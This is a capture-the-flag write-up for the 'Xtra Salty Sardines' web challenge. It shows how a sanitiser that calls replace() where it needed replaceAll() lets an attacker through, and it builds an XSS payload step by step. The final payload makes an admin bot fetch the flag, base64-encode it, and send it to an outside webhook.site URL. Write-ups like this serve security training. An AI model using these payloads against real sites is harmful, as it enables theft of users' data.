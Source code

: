 # Xtra Salty Sardines [![Generic badge](https://img.shields.io/badge/Difficulty-Easy-green.svg)](https://shields.io/)

## Description

Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote a site with an extremely suggestive acronym?

Author: aplet123

## Files
```
.
└── index.js
```
Additionally, there is an `AdminBot` that clicks on every link you give them.

## Solution

The challenge welcomes us with a formula asking for the names of our sardines. Let's name them `test` and proceed. The site then complains, "Your sardine's name is `test`!
Unfortunately, your flag is in another sardine."
Considering the "extremely suggestive name" and the AdminBot, we are probably looking for an XSS. First, let's look at the source code, where our name is processed.

```JavaScript
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```

At first glance, lines 41 to 46 seem to remove important characters for an XSS. But at a second look, we see that the developer used `replace` instead of `replaceAll`. Fortunately, that only removes the first appearance of this character. If we preseed our payload with all of them once, we should be able to inject some XSS.

```
&"'<><script>alert('XSS')</script>
```
That worked out great. Now let's try to fetch the flag with javascript and alert this.

```
&"'<><script>var xmlHttp = new XMLHttpRequest();xmlHttp.open("GET", "https://xtra-salty-sardines.web.actf.co/flag",false);xmlHttp.send();alert(xmlHttp.responseText);</script>
```

Unfortunately, some browsers, especially chromium, won't send some characters in a get request. So to make the admin send the flag to a jar where we can later grab it, we need to base64 encode it. 

```
&"'<><script>var xmlHttp = new XMLHttpRequest();xmlHttp.open("GET", "https://xtra-salty-sardines.web.actf.co/flag",false);xmlHttp.send();alert(btoa(xmlHttp.responseText));</script>
```

Looks good. To receive it, we need a webhook. `webhook.site` should do the job. It automatically creates an individual webhook for you. You can view who visited your webhook and the used URL, including search parameters. All that is left is sending the encoded flag to the jar.

```
&"'<><script>var xmlHttp = new XMLHttpRequest();xmlHttp.open("GET", "https://xtra-salty-sardines.web.actf.co/flag",false);xmlHttp.send();fetch("https://webhook.site/42f11a11-c502-418c-b6a3-46ac414339af?flag="+btoa(xmlHttp.responseText));</script>
```

Send the AdminBot the link and decode the flag.